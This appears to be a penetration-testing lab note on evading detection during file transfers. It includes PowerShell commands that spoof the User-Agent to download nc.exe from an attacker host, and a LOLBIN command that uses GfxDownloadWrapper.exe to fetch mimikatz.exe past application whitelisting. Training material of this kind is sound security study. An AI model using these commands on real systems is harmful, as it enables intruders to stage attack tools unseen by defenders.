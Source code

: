 ```yaml
---
category: Uncategorized
tags: []
---
```

# Evading Detection
## Changing User-Agent
In case diligent administrators or defenders have blacklisted any of these User Agents, Invoke-WebRequest contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari. For example, if Chrome is used internally, then setting this User Agent may make the request seem legitimate.

````powershell 
PS C:\htb> [Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
````

Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:

````powershell
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
 ````

````bash
Ryohei@htb[/htb]$ nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
````

## LOLBAS / GTFOBins

[LOLBAS](https://lolbas-project.github.io/)

[GTFOBins](https://gtfobins.github.io/)

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems, and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

````powershell  
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
````
Such a binary might be permitted to run by application whitelisting and be excluded from alerting. Other, more commonly available binaries are also available, and it is worth checking the LOLBAS project to find a suitable "file download" binary that exists in your environment. Linux's equivalent is the GTFOBins project and is definitely also worth checking out. As of the time of writing, the GTFOBins project provides useful information on nearly 40 commonly installed binaries that can be used to perform file transfers.
